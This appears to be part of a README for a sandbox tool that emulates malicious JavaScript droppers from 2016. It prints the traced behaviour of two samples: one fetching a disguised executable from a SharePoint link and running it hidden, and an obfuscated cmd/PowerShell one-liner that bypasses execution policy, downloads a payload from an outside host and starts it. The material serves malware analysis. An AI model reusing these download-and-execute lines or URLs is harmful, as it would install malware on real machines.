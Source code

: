 With the new sync-request library we are able to get the payload, following the redirect URL:

    21 Nov 23:11:19 - WScript.Shell[9].ExpandEnvironmentStrings(%TEMP%/vbNU_w19.exe)
    21 Nov 23:11:19 - MSXML2.XMLHTTP[10].open(GET,https://caringhomes-my.sharepoint.com/personal/scroker_grettonhomes_co_uk/_layouts/15/guestaccess.aspx?guestaccesstoken=mIsLpZRC5kC0BSqjuCwQfch5hD0Fx9hHVjmqjREs%2b%2fY%3d&docid=0c192762e149049c5831f008a9b492fa8&rev=1,0)
    21 Nov 23:11:20 - MSXML2.XMLHTTP[10].status = (number) '200'
    21 Nov 23:11:20 - MSXML2.XMLHTTP[10].readystate = (number) '4'
    21 Nov 23:11:20 - MSXML2.XMLHTTP[10].statustext = (string) 'OK'
    21 Nov 23:11:20 - MSXML2.XMLHTTP[10].responsebody = (object) 'MZ??????????????????????@???????????????????????????????????????3#D???)?3#G?O?)?3#S???)?3#U???)?3#Q???)?Rich??)?????????????????PE??L???;?Eh??????????????????????????????????????????@??????????????????????????????????^???????????????????????????????? ... (truncated)'
    21 Nov 23:11:20 - MSXML2.XMLHTTP[10].allresponseheaders = (string) '{"cache-control":"private","content-length":"120808","content-type":"application/pdf","accept-ranges":"bytes","etag":"\"{C192762E-1490-49C5-831F-008A9B492FA8},1\"","server":"Microsoft-IIS/8.5","x-sharepointhealthscore":"0","x-download-options":"noope ... (truncated)'
    21 Nov 23:11:20 - ADODB_Stream[11].Open()
    21 Nov 23:11:20 - ADODB_Stream[11].type = (number) '1'
    21 Nov 23:11:20 - ADODB_Stream[11].content = (object) 'MZ??????????????????????@???????????????????????????????????????3#D???)?3#G?O?)?3#S???)?3#U???)?3#Q???)?Rich??)?????????????????PE??L???;?Eh??????????????????????????????????????????@??????????????????????????????????^???????????????????????????????? ... (truncated)'
    21 Nov 23:11:20 - ADODB_Stream[11].Write(str) - 120808 bytes
    21 Nov 23:11:20 - ADODB_Stream[11].SaveToFile(%TEMP%/vbNU_w19.exe, 2)
    21 Nov 23:11:20 - ADODB_Stream[11].Close()
    21 Nov 23:11:20 - WScript.Shell[9].Run(%TEMP%/vbNU_w19.exe, 0, 0)

**malwr.com:** https://malwr.com/analysis/MjcyY2RjYTU2NTcwNGE1ZmIzMGNlYmY1MDEyNmIzZTY/

**Source code original:** malware/20161022/ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.js.orig

**Source code modified:** malware/20161022/ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.js

**Command:**

    node jailme.js --down=y malware/20161022/ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.js

**Output:** [malware/20161022/ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.out](malware/20161022/ece7520d2db75456ebd6f32b01fc79600bbbc2065dbc552bc6077eeaab346771.out)



## BILL_553.js ##

This one does not run from within a browser, therefore we run with wscript-only config. After deobfuscation the payload is being downloaded with a PowerShell command:

    19 Oct 23:02:17 -  => Executing: malware/20161019/7698627e91bd2db3853b9604b710df43deadea9883ae97468a53d20a9601f2d1.js
    19 Oct 23:02:17 - ActiveXObject(WScript.Shell)
    19 Oct 23:02:17 - Created: WScript.Shell[1]
    19 Oct 23:02:17 - WScript.Shell[1].Run(cmD.exe /c pOWersh^e^Ll.^eXe^   -exe^c^Uti^oN^pO^lic^Y    ^bYpaSs^   
        -n^OPRo^fIle^  -w^IN^D^Ows^Ty^Le  h^IDDen  (^neW-Obj^ec^T S^y^St^e^M^.ne^T.^we^Bc^L^ieNt)^.DoW^N^Loa^dFi^le('http://www.cambridgeok.top/user.php?f=1.dat','%apPdaTa%.eXe');
        ^S^Tart-Pro^ce^ss^ %aPPdata%.eXe, 0, undefined)

